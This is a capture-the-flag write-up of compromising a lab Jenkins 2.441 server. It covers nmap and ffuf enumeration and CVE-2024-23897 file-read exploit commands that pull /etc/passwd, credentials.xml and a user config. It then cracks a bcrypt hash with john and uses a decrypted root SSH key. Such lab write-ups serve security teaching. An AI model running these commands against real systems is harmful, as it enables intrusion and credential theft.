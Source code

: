 #Pwned! 
```IP
10.10.11.10
```
# Enumeration
## Nmap
As always I start enumerating target ports with nmap:
```Bash
sudo nmap -sCV 10.10.11.10 -vvv -p- -oN enum/full
```
The output being:
```
PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 63 OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBJ+m7rYl1vRtnm789pH3IRhxI4CNCANVj+N5kovboNzcw9vHsBwvPX3KYA3cxGbKiA0VqbKRpOHnpsMuHEXEVJc=
|   256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOtuEdoYxTohG80Bo6YCqSzUY9+qbnAFnhsk4yAZNqhM
8080/tcp open  http    syn-ack ttl 62 Jetty 10.0.18
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 1 disallowed entry 
|_/
|_http-title: Dashboard [Jenkins]
|_http-server-header: Jetty(10.0.18)
|_http-favicon: Unknown favicon MD5: 23E8C7BD78E8CD826C5A6073B15068B1
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241223102435.png?raw=true)

## HTTP 8080
ffuf with seclist big.txt:
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241223102727.png?raw=true)
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241223103159.png?raw=true)
We also get a user called jennifer and anonymous. If we see the web source code we will find the jenkins version,Jenkins 2.441, which apparently is vulnerable to **CVE-2024-23897**.
This exploit seems to meet the requirements:
https://github.com/Praison001/CVE-2024-23897-Jenkins-Arbitrary-Read-File-Vulnerability
```
python exploit.py -u http://10.10.11.10:8080/ -f /etc/passwd
```
And this too:
https://www.exploit-db.com/exploits/51993
```
python exploit2.py -u http://10.10.11.10:8080 -p /etc/passwd
```
Both ways we get to read /etc/passwd and get user `jenkins`.
So here it talks about some files to read with this LFI
https://www.cloudsek.com/blog/xposing-the-exploitation-how-cve-2024-23897-led-to-the-compromise-of-github-repos-via-jenkins-lfi-vulnerability
And reading credentials.xml we get an ssh privatekey for root
```
python exploit2.py -u http://10.10.11.10:8080 -p /var/jenkins_home/credentials.xml
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241223110927.png?raw=true)
According to the blog, we can decrypt this on the script directory of jenkins, but we don't have access to it. We can download the .jar in the bin directory however, and try to execute the groovy script in our local machine:
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241223115658.png?raw=true)
but we are executing it as anonymous and we don't have permissions to execute this apparently.
Another interesting file would be users.xml:
```
python exploit2.py -u http://10.10.11.10:8080 -p /var/jenkins_home/users/users.xml
```
Where we get a user `jennifer_12108429903186576833` which we can use to get config.xml:
```
python exploit2.py -u http://10.10.11.10:8080 -p /var/jenkins_home/users/jennifer_12108429903186576833/config.xml
```
Which contains a bcrypt hash
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241223120458.png?raw=true)
```
john --wordlist=/usr/share/wordlists/rockyou.txt files/bcrypt.hash 
```
Cracking it we get the password:
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241223120754.png?raw=true)
So now we have access to jenkins console and we can run commands
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241223121023.png?raw=true)
And also we can go to scripts and execute the script that the blog post talked about in order to decrypt the private key:
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241223121312.png?raw=true)
And saving it to a file, giving it 600 permissions we can login and we are root!
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241223121506.png?raw=true)
We get the flags:
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241223121543.png?raw=true)
# Exploitation

# PrivEsc

## Manual

## Automated

### Peass
### Mimikatz

# Lateral Movement

